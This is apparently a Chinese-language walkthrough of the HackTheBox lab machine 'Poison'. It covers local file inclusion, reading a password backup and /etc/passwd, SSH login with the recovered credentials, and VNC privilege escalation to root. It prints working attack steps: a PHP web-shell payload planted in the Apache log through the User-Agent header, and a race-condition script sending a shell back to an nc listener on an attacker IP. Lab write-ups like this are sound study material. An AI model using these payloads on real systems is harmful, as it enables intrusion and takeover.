


nmap

```bash
sudo nmap -T4 -Pn -sT -n 10.10.10.84
```


80端口


```bash
http://10.10.10.84/browse.php?file=phpinfo.php
```



查看了下发现

```bash
allow_url_fopen on
allow_url_include off

#不能远程文件包含，只能看看文件
```

```bash
http://10.10.10.84/browse.php?file=listfiles.php
```

发现一个pwdbackup.txt文件


```bash
http://10.10.10.84/browse.php?file=pwdbackup.txt
```

居然是密码文件，还提示你解码13次，看起来是base64编码了13次


解码13次，写个简单脚本

```python
import base64
import sys

def base64_decode(data,n):
    num=0
    while num < int(n):
        data = base64.b64decode(data)
        num = num +1
    print(data)

if __name__ == '__main__':
    data = sys.argv[2]
    n = sys.argv[1]
    base64_decode(data,n)
```

执行

```python
python3 base64s.py 13 'data'
```


得到密码

```text
Charix!2#4%6&8(0

```

尝试ssh直接登录root/Charix!2#4%6&8(0，发现密码不正确

尝试了以下密码都失败

```text
Charix!2#4%6&8(0
root!2#4%6&8(0
Root!2#4%6&8(0
ROOT!2#4%6&8(0
```

看一下有什么用户

```bash
http://10.10.10.84/browse.php?file=../../../../../../../../../etc/passwd
```


发现用户名charix和，尝试登录charix/Charix!2#4%6&8(0

```bash
ssh charix@10.10.10.84
```

登录成功，


其他思路:&#x20;

思路一：

LFI+apache日志

本地文件包含，需要将PHP代码写入服务器文件，并且找到文件路径

找apache日志访问路径，

```text
https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/
```


通过目录穿越访问到apache日志文件，发现记录了User-Agent


通过文件包含执行命令

发送请求，User-Agent记录在httpd-access.log

```bash
GET /browse.php?file=../../../../../../var/log/httpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php system($_REQUEST['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

执行命令

```bash
GET /browse.php?file=../../../../../../var/log/httpd-access.log&cmd=id HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php system($_REQUEST['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```


这个思路拿到权限用户是www，后门没继续搞下去。

思路二：LFI+phpinfo条件竞争

漏洞原理：php上传的临时文件上传到服务器被删除之前(上传的请求结束就删除，所以要让请求的时间更久)，使用文件包含临时文件执行php代码。

漏洞条件：

-   能够访问phpinfo路径
-   file\_uploads  on


参考：

```bash
https://rafalharazinski.gitbook.io/security/other-web-vulnerabilities/local-remote-file-inclusion/phpinfo-log-race-condition
```

脚本地址

```text
https://github.com/roughiz/lfito_rce
```

执行脚本

```bash
nc -lvp 23333

python2 lfito_rce.py -l "http://10.10.10.84/browse.php?file=" --lhost 10.10.16.2 --lport 23333 -t 12 -i "http://10.10.10.84/phpinfo.php"

```


已经拿到www权限。

回到charix用户提权

发现在charix用户目录下有个压缩包文件


下载到本地

```bash
scp charix@10.10.10.84:~/secret.zip ./
```



解压，发现密码就是之前登录的密码，`Charix!2#4%6&8(0`


乱码，不知道是什么，先暂时放着


```bash
ps -aux
```

发现Xvnc是以root权限运行


```纯文本
ps -auxww |grep vnc
```

vnc的端口是5901


```纯文本
netstat -an|grep LIST
```


尝试登录vnc，需要将靶机5901端口转发到本地

```纯文本
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

搜了下发现登录vnc的密码也可以以文件的形式存在


之前解压出来的secret文件应该就是密码

```bash
vncviewer -passwd ./secret 127.0.0.1:5901
```

登录成功，并且是root权限


